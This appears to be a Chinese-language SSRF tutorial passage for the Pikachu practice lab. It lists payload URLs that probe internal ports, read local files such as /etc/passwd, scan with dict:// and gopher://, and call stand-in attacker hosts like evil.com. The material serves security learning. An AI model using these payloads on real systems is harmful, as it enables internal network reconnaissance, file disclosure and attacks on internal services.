 ```
http://127.0.0.1:8082/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:8082
```

可以通过返回的时间和长度判断端口的开放，请求 mysql

```
http://127.0.0.1:8082/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1:3306
```

### 2.file 协议读取文件

```
http://127.0.0.1:8082/vul/ssrf/ssrf_curl.php?url=file:///D:/phpstudy/WWW/pikachu/test.txt
```

### 3.dict 协议内网扫描

能进行内网端口的探测-可以探测到具体的版本号等等信息

```
http://127.0.0.1:8082/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:3306
```

### 4.gopher 协议

能进行内网端口的探测-可以发送 get 或者来攻击内网的 redis 等服务

```
http://127.0.0.1:8082/vul/ssrf/ssrf_curl.php?url=gopher://127.0.0.1:3306
```

## SSRF 支持的协议

```
ftp
ssrf.php?url=ftp://evil.com:12345/TEST

file://
ssrf.php?url=file:///etc/passwd

Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/

SFTP://
ssrf.php?url=sftp://example.com:11111/

TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET

LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

Gopher://
ssrf.php?url=gopher://127.0.0.1:3306
```
